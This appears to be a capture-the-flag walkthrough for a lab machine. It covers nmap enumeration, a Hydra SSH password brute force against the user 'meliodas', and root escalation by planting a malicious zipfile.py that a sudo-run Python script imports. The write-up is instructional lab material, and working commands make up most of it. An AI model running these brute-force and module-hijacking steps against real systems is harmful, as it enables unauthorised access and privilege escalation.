 
---

# Privilege Escalation Walkthrough

## 1. Enumeration with Nmap

First, we perform a port scan on the target host to identify open services:

```bash
nmap -Pn -sV 0.0.0.0
```

- The scan reveals port **80 (HTTP)** is open.
    
- Exploring the web service discloses a potential username: **`meliodas`**.
    

---

## 2. Brute-Forcing SSH Credentials

Using Hydra, we attempt to crack the SSH password for the discovered user:

```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://0.0.0.0
```

- Successful login found:
    
    - **Username:** `meliodas`
        
    - **Password:** `iloveyou1`
        

We can now authenticate to the system:

```bash
ssh meliodas@0.0.0.0
```

---

## 3. Local Enumeration & Privilege Escalation

Once inside, we inspect files and configurations. A suspicious Python script `bak.py` is found.  
On review, we notice it imports a module (`zipfile`) that is not a built-in dependency of the script — making it vulnerable to **Python library hijacking**.

---

## 4. Exploiting Python Module Hijacking

We replace the `zipfile.py` module locally under `/home/meliodas/` with a malicious payload:

```bash
echo 'import os; os.system("cat /root/root.txt")' > /home/meliodas/zipfile.py
```

Then, execute the vulnerable script with elevated privileges:

```bash
sudo python3 /home/meliodas/bak.py
```

Since Python imports the local malicious `zipfile.py`, our payload is executed with root permissions.

---

## 5. Obtaining the Root Flag

As a result, the contents of `/root/root.txt` are displayed — successfully escalating privileges to root.

---

## Summary

- **Initial foothold:** Discovered username `meliodas` via web and cracked SSH password with Hydra.
    
- **Privilege escalation:** Exploited Python local module hijacking via `bak.py`.
    
- **Outcome:** Retrieved the root flag.
    

---